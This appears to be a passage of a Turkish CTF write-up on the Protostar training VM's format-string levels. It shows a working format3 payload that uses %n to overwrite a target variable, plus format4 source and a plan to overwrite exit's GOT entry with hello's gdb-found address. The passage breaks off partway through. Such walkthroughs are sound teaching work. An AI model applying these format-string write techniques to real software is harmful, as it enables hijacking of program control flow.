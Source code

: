 ```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xf4\x96\x04\x08" + "%16930112d"+"%12$n"') | ./format3
...
...
...
buralarda yüzlerce boşluk karakteri olacak verdiğimiz sayıdan dolayı
...
...
you have modified the target :)
```
Ve bu şekilde bu aşamayı da çzödük ancak bu aşamayı 1 ve 2 byte yazma yöntemleri ile de çözebilrdik. Onun için de şuralara bakabilirsiniz [Link1]() [Link2]()

## Format 4
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bu aşamada işler iyice karışıyor ve bizden program akışını değiştirip vuln fonksiyonunaki zafiyetten faydalanarak hello fonksiyonuna atlayıp başarı mesajını ekrana yazdırmak. Peki bunu yapmak için nasıl bir yol izleyeceğiz? Return adresini ezme gibi bri durumumuz yok çünkü vuln fonksiyonu geri dönmeden exit ile çıkış yapıyor. Eğer biz exit fonksiyonunun adresini hello fonksiyonunun adresi ile değiştirebilirsek program exit fonksiyonunu çalıştırmak istesiğinde gidip bizim hello fonksiyonuna zıplar ve onu çalıştırır. Exit fonksiyonunun adresini değiştrimek için anlamamız gereken bir konu var, o da PLT(process linkage table) ve GOT(global offset table) tabloları. Bunlar ne olaki diye soruyorsanız burada ayrıntılı bir şekilde anlatmayacağım ancak şu iki kaynaktan güzel bir şekilde öğrenebilirsiniz. [Video](https://www.youtube.com/watch?v=kUk5pw4w0h4) ve [Blog](https://programmersought.com/article/20004546156/) <br> Bunları izlediğinizi/okuduğunuzu varsayarak devam ediyorum, şu fonksiyonların adreslerini gdb ile bulalım.
```bash
hello nun adresini bulma
------------------------
(gdb) x hello
0x80484b4 <hello>:	0x83e58955
```
Hellonun adresini bulduk, burada sıra exit fonksiyonuna geldi.